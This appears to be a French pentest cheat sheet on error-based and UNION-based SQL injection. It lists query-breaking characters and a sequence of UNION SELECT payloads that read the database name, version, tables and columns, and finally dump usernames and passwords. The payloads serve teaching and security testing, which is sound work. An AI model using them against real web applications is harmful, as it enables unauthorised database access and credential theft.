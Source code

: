 Ce type d'injection SQL est le plus utile pour obtenir facilement des informations sur la structure de la base de données car les messages d'erreur de la base de données sont imprimés directement sur l'écran du navigateur.

## Découverte SQLi 
La clé pour découvrir l'injection SQL basée sur les erreurs est de: 
- Casser la requête SQL en essayant certains caractères jusqu'à ce qu'un message d'erreur soit produit ; il s'agit le plus souvent des caractères comme:

```sh
' -> %27
" -> %22
# -> %23
; -> %3B
) -> %29
```

> Le fait de recevoir un message d'erreur confirme l'existence d'une vulnérabilité SQL Injection

---
###### Injection sur UNION
Ce type d'injection utilise l'opérateur SQL UNION avec une instruction SELECT pour renvoyer des résultats supplémentaires à la page.



**1 - Renvoyer les données au navigateur sans afficher de message d'erreur.**

```sql
?id=0 UNION SELECT 1
```

Ce tte instruction produit un message d'erreur vous informant que _l'instruction UNION SELECT a un nombre de colonnes différent de celui de la requête SELECT d'origine._ 

Essayons mais ajoutons une autre colonne jusqu'a le message d'erreur disparais:

```sql
?id=1 UNION SELECT 1,2,...
```


**2 - Afficher nos données**
Cela peut simplement être fait en changeant l'identifiant de l'article de `1 à 0`

```sql
?id=0 UNION SELECT 1,2,...
```

Maintenant l'article est simplement composé du résultat de la sélection UNION

**3 - Récupérer des informations plus utiles.**
On peut remplacer 1 par `null`

```sql
-- Obtenir le nom de la base de données:
0 UNION SELECT 1,2,database()

-- Affiche la version du serveur
0 UNION SELECT null, version()
```

Lister des tables qui se trouvent dans cette base de données:

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '{db_name}'

-- ou 

0 UNION SELECT null,table_name FROM INFORMATION_SCHEMA.tables
```

Trouver la structure des tables (colones):

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '{db_table_name}'

-- ou 

0 UNION SELECT null,column_name FROM INFORMATION_SCHEMA.columns WHERE table_name='{db_table_name}'
```

Récupérer les informations:

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM {db_table_name}

-- ou 

0 UNION SELECT null, concat(user,0x0a,password) FROM {db_table_name}
```
